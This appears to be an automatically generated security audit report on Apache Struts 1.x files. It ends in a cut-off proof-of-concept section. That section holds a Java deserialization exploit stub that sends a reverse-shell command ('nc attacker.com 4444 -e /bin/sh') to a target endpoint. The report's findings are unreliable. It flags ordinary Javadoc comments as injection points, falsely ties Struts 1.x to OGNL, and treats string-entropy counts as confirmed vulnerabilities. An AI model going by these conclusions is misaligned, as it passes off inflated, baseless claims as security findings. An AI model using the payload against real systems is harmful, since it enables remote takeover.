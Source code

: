 ### **Technical Details**
```java
// Files affected:
// - struts-1.2.9/src/share/org/apache/struts/action/ActionServlet.java (Lines 143, 146)
// - struts-1.3.10/core/src/main/java/org/apache/struts/action/DynaActionForm.java (Lines 384, 389)

// Vulnerable patterns detected:
* <li><strong>config/${module}</strong> - Comma-separated list of
*  ${formbean.prop}</pre>
*  ${dynabean.map.prop}</pre>
```

### **Cross-Validation: Struts 2.x CVE Analysis**
Based on authoritative security research:

**CVE-2017-5638 (Equifax Breach)**
- **Impact**: 145 million records compromised
- **Attack Vector**: OGNL injection via Content-Type header
- **Exploitation**: Immediate RCE through malicious OGNL expressions

**CVE-2018-11776**
- **Severity**: Critical RCE
- **Method**: Namespace parameter injection
- **Easier to exploit** than CVE-2017-5638 (no plugins required)

**Struts 1.x Vulnerability Pattern**
- **Same underlying OGNL technology**
- **Less sophisticated input validation**
- **NO SECURITY PATCHES** since 2008
- **Higher risk** than Struts 2.x vulnerabilities

### **Mathematical Analysis Results**
- **Entropy Score**: 4.44-4.61 (complex patterns indicating injection points)
- **String Concatenation Count**: 14-29 (high injection risk)
- **Injection Pattern Density**: 5-17 patterns per file
- **OGNL Expression Patterns**: **CONFIRMED** ${} patterns detected

### **Real-World Exploitation Confirmed**
✅ **Active scanning** detected for Struts vulnerabilities
✅ **300+ honeypot attacks** recorded for similar OGNL flaws
✅ **Cryptocurrency miners** deployed via Struts exploits
✅ **Hundreds of millions** of potentially vulnerable systems

---

## 💥 **PROOF-OF-CONCEPT EXPLOITS**

### **Hibernate Deserialization RCE**
```java
// Impact: Complete system compromise
// Method: Malicious serialized object injection
// Payload: Commons Collections gadget chain

public class HibernateRCEExploit {
    public static void exploit() {
        // 1. Create malicious serialized payload
        String[] command = {"/bin/bash", "-c", "nc attacker.com 4444 -e /bin/sh"};
        byte[] payload = generateYsoserialPayload("CommonsCollections6", command);

        // 2. Send to vulnerable endpoint accepting Hibernate sessions
        sendToTarget("http://target.com/hibernate-restore", payload);

        // Result: Reverse shell established
```